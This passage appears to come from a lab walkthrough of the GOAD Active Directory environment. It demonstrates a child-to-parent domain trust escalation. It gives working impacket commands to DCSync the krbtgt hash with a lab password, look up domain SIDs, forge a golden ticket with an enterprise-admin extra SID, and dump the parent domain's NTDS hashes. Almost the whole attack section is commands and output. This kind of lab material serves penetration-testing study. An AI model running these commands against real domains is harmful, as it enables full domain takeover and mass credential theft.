 - We have done the exploitation on one command with impacket raiseChild.py, now let's just do the same but step by step and create the golden ticket.
- Full explanation on the attack can be found here : [https://adsecurity.org/?p=1640](https://adsecurity.org/?p=1640)
- First dump the krbtgt of the domain we own

```bash
# dump child ntds and get krbtgt NT hash
secretsdump -just-dc-user north/krbtgt \ 
 north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.11

...
krbtgt:502:aa3b435b51404eeaad3b435b51404ee:13354bc6e1b48fff8d66a2090e909b27:::
..
```

![trusts_child_dcsync_krbtgt.png](/assets/blog/GOAD/trusts_child_dcsync_krbtgt.png)

- Now get the child and parent domain SID

```bash
# dump child domain SID 
lookupsid.py  -domain-sids north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.11 0

[*] Domain SID is: S-1-5-21-638448100-4005671799-261795860

# dump parent domain SID 
lookupsid.py  -domain-sids north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.10 0

[*] Domain SID is: S-1-5-21-1409754491-4246775990-3914137275
```

- And now create the golden ticket : we add "-519" at the end of the extra-sid (means enterprise admin) (list of domain SID here : [https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers))

```bash
ticketer.py -nthash 13354bc6e1b48fff8d66a2090e909b27 \
 -domain-sid S-1-5-21-638448100-4005671799-261795860 \
 -domain north.sevenkingdoms.local \
 -extra-sid S-1-5-21-1409754491-4246775990-3914137275-519 \
 goldenuser
```

- And we use the ticket to dump the parent domain NTDS

```bash
secretsdump -k -no-pass -just-dc-ntlm \
 north.sevenkingdoms.local/goldenuser@kingslanding.sevenkingdoms.local
```

![trusts_child_extrasid_golden.png](/assets/blog/GOAD/trusts_child_extrasid_golden.png)
